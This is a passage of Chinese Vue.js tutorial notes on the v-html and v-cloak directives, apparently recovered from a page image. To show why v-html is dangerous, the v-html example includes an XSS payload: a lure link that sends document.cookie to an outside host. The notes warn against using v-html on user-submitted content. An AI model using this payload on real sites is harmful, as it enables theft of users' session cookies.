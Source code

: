          <script type="text/javascript">
            Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
            
            new Vue({
               el:'#root',
               data:{
                  name:'世界',
                  str:'<h3>你好啊！</h3>'
               }
            })
         </script>
         ```
   2. v-html指令：
      1. 作用：向指定节点中渲染包含html结构的内容。
      2. 与插值语法的区别：
         1. v-html会替换掉节点中所有的内容，{{xx}}则不会。
         2. v-html可以识别html结构。
      3. 严重注意：v-html有安全性问题！！！！
         1. 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
         2. 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

         ```html
         <body>
            <div id="root">
               <div>你好，{{name}}</div>
               <div v-html="str"></div>
               <div v-html="str2"></div>
            </div>
         </body>

         <script type="text/javascript">
            Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

            new Vue({
               el:'#root',
               data:{
                  name:'世界',
                  str:'<h3>你好啊！</h3>',
                  str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
               }
            })
         </script>
         ```
   3. v-cloak指令（没有值）：
         1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
         2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

            ```html
            <body>
               <div id="root">
                  <h2 v-cloak>{{name}}</h2>
               </div>
               <!-- 这里引入的是5s才返回的vuejs -->
               <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
            </body>
            